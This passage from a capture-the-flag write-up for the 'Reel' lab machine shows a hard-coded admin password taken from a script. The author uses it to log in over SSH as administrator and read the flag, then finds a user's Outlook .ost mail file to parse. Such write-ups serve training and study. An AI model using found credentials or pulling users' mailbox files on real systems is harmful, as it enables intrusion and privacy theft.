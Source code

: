 

    # admin password
    $password="Cr4ckMeIfYouC4n!"



With the admin password, I can ssh in as administrator, and get the
flag:



    root@kali# ssh administrator@10.10.10.77
    administrator@10.10.10.77's password:
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.

    administrator@REEL C:\Users\Administrator\Desktop>dir
     Volume in drive C has no label.
     Volume Serial Number is CC8A-33E1

     Directory of C:\Users\Administrator\Desktop

    21/01/2018  15:56    <DIR>          .
    21/01/2018  15:56    <DIR>          ..
    02/11/2017  22:47    <DIR>          Backup Scripts
    28/10/2017  12:56                32 root.txt
                   1 File(s)             32 bytes
                   3 Dir(s)  15,757,074,432 bytes free

    administrator@REEL C:\Users\Administrator\Desktop>type root.txt
    1018a033...



## Beyond Root

### Remnants of a Former Path

As root, I discovered julia had a `.ost` Offline Outlook Data file in
her directory:



    PS C:\Users\julia\AppData\Local\Microsoft\Outlook> ls *.ost


        Directory: C:\Users\julia\AppData\Local\Microsoft\Outlook


    Mode                LastWriteTime     Length Name
    ----                -------------     ------ ----
    -a---        31/10/2017     22:30   16818176 julia@megabank.com - Julia.ost



I'll pull that file back, and use `readpst` to parse the ost into
readable text:


